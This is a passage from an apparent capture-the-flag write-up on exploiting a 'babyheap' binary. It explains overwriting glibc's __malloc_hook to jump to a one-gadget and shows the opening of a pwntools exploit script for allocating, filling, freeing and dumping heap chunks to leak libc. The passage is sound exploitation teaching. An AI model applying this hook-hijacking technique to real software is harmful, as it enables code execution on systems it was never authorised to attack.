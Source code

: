 ```c
void *(*hook) (size_t, const void *)
  = atomic_forced_read (__malloc_hook);
if (__builtin_expect (hook != NULL, 0))
  return (*hook)(bytes, RETURN_ADDRESS (0));
```

As `__malloc_hook` is not NULL, malloc() will call our one gadget.

Here is my exploit:
```python
#!/usr/bin/env python2.7
# -*- coding: utf-8 -*-

from pwn import *
import os


context(arch="amd64", os="linux", endian="little")
#context.log_level="DEBUG"


class Pwn:
    def __init__(self):
        self.e = ELF("./babyheap")
        self.libc = ELF("/lib/x86_64-linux-gnu/libc-2.24.so")
        self.p = None

    def start_binary(self):
        self.p = process("./babyheap")
        self.p.recvuntil("Command: ")

    def allocate_cmd(self, size):
        self.p.sendline("1")
        self.p.recvuntil("Size: ")
        self.p.sendline(str(size))
        self.p.recvuntil("Command: ")

    def fill_cmd(self, index, size, content):
        self.p.sendline("2")
        self.p.recvuntil("Index: ")
        self.p.sendline(str(index))
        self.p.recvuntil("Size: ")
        self.p.sendline(str(size))
        self.p.recvuntil("Content: ")
        self.p.send(content)
        self.p.recvuntil("Command: ")

    def free_cmd(self, index):
        self.p.sendline("3")
        self.p.recvuntil("Index: ")
        self.p.sendline(str(index))
        self.p.recvuntil("Command: ")

    def dump_cmd(self, index):
        self.p.sendline("4")
        self.p.recvuntil("Index: ")
        self.p.sendline(str(index))
        return self.p.recvuntil("Command: ")

    def leak_libc(self):
        self.allocate_cmd(16)
        self.allocate_cmd(16)
        self.allocate_cmd(16)
        self.allocate_cmd(16)
```